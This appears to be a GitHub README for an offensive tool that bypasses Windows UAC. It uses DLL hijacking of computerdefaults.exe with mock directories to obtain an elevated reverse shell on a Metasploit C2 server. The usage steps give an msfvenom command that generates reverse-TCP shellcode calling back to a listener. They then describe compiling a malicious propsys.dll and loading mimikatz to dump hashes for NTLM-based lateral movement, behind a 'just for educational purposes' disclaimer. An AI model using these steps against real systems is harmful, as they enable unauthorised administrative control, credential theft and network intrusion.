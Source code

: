 # C2_Elevated_Shell_DLL_Hijcking
DLL Hijacking and Mock directories technique to bypass Windows UAC security feature and getting high-level privileged reverse shell. Security researchers identified this technique which uses a simplified process of DLL hijacking and mock folders to bypass UAC control. I tested this on Windows 10,11 and bypassed Windows 10 UAC security feature.  I am using Metasploit as a C2 server in order to get reverse shell and “computerdefaults.exe” binary to perform DLL hijacking attack. If an attacker got access of that user than he will escalate privileges in order to dump hashes and try to authenticate within network using NTLM hashes of that user. What if an attacker got elevated reverse shell of user, he don’t need to escalate privileges because he already got administrative shell on C2 server.


# USAGE
1) Create your shellcode using msfvenom (msfvenom -p windows/x64/shell_reverse_tcp lhost=0.0.0.0 lport=555 -f CSharp)
2) Compile Dllmain.cpp to create malicous DLL and rename propsys.dll
3) Put propsys.dll and batch file in same directory
4) Start Metasploit listener before executing batch script.
5) You will get elevated shell over C2 server.
6) Load mimikatz in order to dump hashes.


# Just for educational purposes
# Cyber Security Engineer
# Offensive Panda

![1_QlGStDVsHu1ZemehjNZObQ](https://user-images.githubusercontent.com/76246439/160832289-1f5e660e-3ee9-4cfc-9b1f-32d9183135d3.png)
![1_h-WeaeVpN6P7F5Z6M_kKdA](https://user-images.githubusercontent.com/76246439/160832352-1d89318f-879d-400b-8644-41870958afa0.png)
![1_n9Px514ZD_KLLmSu3z4bug](https://user-images.githubusercontent.com/76246439/160832398-b9330b4f-00b7-47df-8bb3-00ed78577396.png)



